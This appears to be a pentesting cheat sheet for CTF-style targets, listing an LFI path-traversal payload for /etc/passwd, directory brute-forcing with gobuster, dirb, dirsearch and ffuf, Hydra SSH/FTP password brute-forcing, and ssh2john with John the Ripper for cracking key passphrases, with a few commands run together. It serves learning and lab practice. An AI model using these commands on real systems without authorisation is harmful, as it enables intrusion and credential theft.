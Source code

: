 # Web

## Source
View source files

## Robots
Open robots.txt

## LFI
Try to open  ../../../../../etc/passwd
http://target/item?id=../../../../../etc/passwd

## Web path discovery


### Gobuster
```
gobuster dir -u http://$target -w /usr/share/dirb/wordlists/common.txt -t 100 -o $target_name.dir.txt
gobuster dir -u $target -w /usr/share/dirb/wordlists/common.txt -x .php,.txt,.html -t 100 -o $target_name.file.txt

```


### dirb
```
dirb $target
```

###  dirsearch

```
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
pip3 install -r requirements.txt
python3 dirsearch.py -u <URL> -e <EXTENSIONS>

Usage: dirsearch.py [-u|--url] target [-e|--extensions] extensions [options]

python3 dirsearch.py -u $target -e php,html,txt port80

python3 dirsearch.py -e php,html,js -u https://target

python3 dirsearch.py -e php,html,js -u https://target -w /path/to/wordlist

```

## dirsearch recursive
python3 dirsearch.py -e php,html,js -u https://target -r


## ffuf
ffuf -c -w letters -u http://10.10.21.10 -H "User-Agent: FUZZ"




enum4linux $ip


## Hydra


hydra -l <username> -P /usr/share/wordlists

hydra -l <username> -P locks.txt 10.10.130.81 ssh

hydra -t 4 -l jan -P <rockyou.txt directory> ssh://<MACHINE IP>

hydra -f -I -vV -t 64 -l lin -P ./locks.txt $TARGET ssh

hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.133.186



## rockyou
```
sudo gunzip /usr/share/wordlists/rockyou.txt.gzwc -l /usr/share/wordlists/rockyou.txt
```

## ssh_key
```
chmod 600 ssh_key
ssh -i ssh_key username@$target
```
# Create some private key
ssh-keygen -t rsa -b 4096# Create encrypted zip
/usr/sbin/ssh2john ~/.ssh/id_rsa > id_rsa.hash



python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash


Cracking everything with John the Ripper
https://bytesoverbombs.io/cracking-everything-with-john-the-ripper-d434f0f6dc1c



